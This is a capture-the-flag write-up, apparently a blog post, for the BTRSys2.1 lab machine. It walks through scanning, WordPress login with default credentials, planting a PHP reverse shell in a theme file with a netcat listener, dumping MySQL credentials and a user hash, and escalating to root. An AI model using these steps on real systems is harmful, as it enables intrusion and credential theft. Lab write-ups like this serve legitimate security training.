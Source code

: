 ```yaml
---
title: "Proving grounds Play: BTRSys2.1"
layout: post
date: 2023-10-02 04:00
categories: writeup
---
```


Proving grounds Play - BTRSys2.1 CTF writeup.

## Nmap

```sh
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 08eee3ff3120876c12e71caac4e754f2 (RSA)
|   256 ade11c7de78676be9aa8bdb968927787 (ECDSA)
|_  256 0ce1eb060c5cb5cc1bd1fa5606223167 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

## 80/tcp - open  http - Apache httpd 2.4.18 ((Ubuntu))

http://192.168.169.50/ = Just a snake gif.

### Directory Fuzzing

Discovered robots.txt file.

```text
Disallow: Hackers
Allow: /wordpress/


 .o+.                    :o/                                                   -o+`                
  /hh:                    shh`                                                  +hh-                
  /hh:                    shh`                         -/:                      +hh-                
  /hh:                    shh`                         +s+                      +hh-                
  /hh/............   `....shh-....   ...............`  `-`   `..............`   +hh-          ..    
  /hhyyyyyyyyyyyyy/ `syyyyyhhyyyyy. -yyyyyyyyyyyyyyy/  oys   +ssssssssssssss/   +hh-        .+yy-   
  /hh+---------/hh+  .----yhh:----  :hho------------`  yhy`  oyy------------`   +hh-      .+yys:`   
  /hh:         -hh+       shh`      :hh+               yhy`  oyy                +hh-   `.+yys/`     
  /hh:         -hh+       shh`      :hh+               yhy`  oss          `--   +hhsssssyhy/`       
  /hh:         -hh+       shh`      :hh+               yhy`  `-.          +yy.  +hho+++osyy+.       
  /hh:         -hh+       shh`      :hh+               yhy`               +yy.  +hh-    `/syy+.     
  /hho:::::::::+hh+       shh`      :hh+               yhy`  .::::::::::::oyy.  +hh-      `/yyy/`   
  :yyyyyyyyyyyyyyy:       +ys`      .yy:               oys   +sssssssssssssss`  /ys.        `/sy-   
   ```````````````         `         ``                 `     ``````````````     ``                
```

http://192.168.169.50/wordpress/

## WPScan

```sh
wpscan --url http://192.168.169.50/wordpress/ --enumerate u --enumerate p --enumerate t
```

### Usernames

- btrisk
- admin

http://192.168.169.50/wordpress/wp-login.php

Login to the admin account using credentials `admin:admin`.

## Initial Foothold

Download pentest monkey PHP reverse shell and make changes accordingly. 

Navigate to Dashboard ➡️ Appearance ➡️ Editor ➡️ Comments.php. Ensure the changes we are making is to the right theme, and in order to confirm the theme is use to a particular page is by view-source of the page and check the theme.


Replace the contents of the `comments.php` file with the pentest monkey revserse shell and save the file.

Now navigate to the `http://192.168.169.50/wordpress/` page and click the comments button to trigger the reverse shell.

```sh
naveenj@hackerspace:|09:44|~/proving_grounds/BTRSys2.1/files$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.190] from (UNKNOWN) [192.168.169.50] 53568
Linux ubuntu 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 06:45:09 up  1:27,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (855): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/$ 
```

**Initial Foothold Obtained**

## Privilege Escalation

Check the `wp-config.php` for database credentials and then use them to login to the mysql server. If there is any issue with the shell, for example:

```sh
www-data@ubuntu:/home/btrisk$ mysql -uroot -prootpassword!
mysql -uroot -prootpassword!
mysql: [Warning] Using a password on the command line interface can be insecure.
```

If there are no further update in the shell, then do the follwing command.

```sh
/usr/bin/script -qc /bin/bash /dev/null
```

This will resolve the issue and provide the right shell to work with.

### Login to mysql

```sh
www-data@ubuntu:/$ mysql -uroot -prootpassword!
mysql -uroot -prootpassword!
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 132
Server version: 5.7.17-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| deneme             |
| mysql              |
| performance_schema |
| phpmyadmin         |
| sys                |
| wordpress          |
+--------------------+
7 rows in set (0.00 sec)

mysql> use wordpress;
use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+----------------------------+
| Tables_in_wordpress        |
+----------------------------+
| wp_abtest_experiments      |
| wp_abtest_goal_hits        |
| wp_abtest_goals            |
| wp_abtest_ip_filters       |
| wp_abtest_variation_views  |
| wp_abtest_variations       |
| wp_commentmeta             |
| wp_comments                |
| wp_links                   |
| wp_masta_campaign          |
| wp_masta_cronapi           |
| wp_masta_list              |
| wp_masta_reports           |
| wp_masta_responder         |
| wp_masta_responder_reports |
| wp_masta_settings          |
| wp_masta_subscribers       |
| wp_masta_support           |
| wp_options                 |
| wp_postmeta                |
| wp_posts                   |
| wp_term_relationships      |
| wp_term_taxonomy           |
| wp_terms                   |
| wp_usermeta                |
| wp_users                   |
+----------------------------+
26 rows in set (0.00 sec)

mysql> select * from wp_users;
select * from wp_users;
2 rows in set (0.00 sec)

mysql> 
```

```text
root: a318e4507e5a74604aafb45e4741edd3
```

Crack the hash for the above, and use switch user command to login to root user. Cracked password for root `roottoor`.

```sh
www-data@ubuntu:/$ su root
su root
su: must be run from a terminal         #issue with the terminal
www-data@ubuntu:/$ /usr/bin/script -qc /bin/bash /dev/null          #resolution
/usr/bin/script -qc /bin/bash /dev/null
www-data@ubuntu:/$ su root          #switch user to root
su root
Password: roottoor

root@ubuntu:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/# 
```

**Root Obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).